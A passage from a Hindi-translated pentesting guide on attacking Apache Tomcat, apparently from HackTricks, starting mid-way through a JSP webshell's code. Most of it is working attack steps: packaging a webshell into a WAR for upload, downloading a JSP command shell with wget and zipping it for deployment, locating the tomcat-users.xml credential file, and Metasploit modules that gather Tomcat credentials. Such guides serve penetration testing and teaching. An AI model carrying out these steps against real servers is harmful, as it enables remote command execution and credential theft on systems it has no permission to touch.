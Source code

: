 ```java
}
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```
आप इसे भी स्थापित कर सकते हैं (अपलोड, डाउनलोड और कमांड निष्पादन की अनुमति देता है): [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)

### मैन्युअल तरीका 2

एक JSP वेब शैल जैसे [यह](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) प्राप्त करें और एक WAR फ़ाइल बनाएं:
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```
## POST

Tomcat क्रेडेंशियल फ़ाइल का नाम _tomcat-users.xml_ है।
```bash
find / -name tomcat-users.xml 2>/dev/null
```
Tomcat क्रेडेंशियल्स इकट्ठा करने के अन्य तरीके:
```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```
## अन्य टॉमकैट स्कैनिंग टूल

* [https://github.com/p0dalirius/ApacheTomcatScanner](https://github.com/p0dalirius/ApacheTomcatScanner)

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
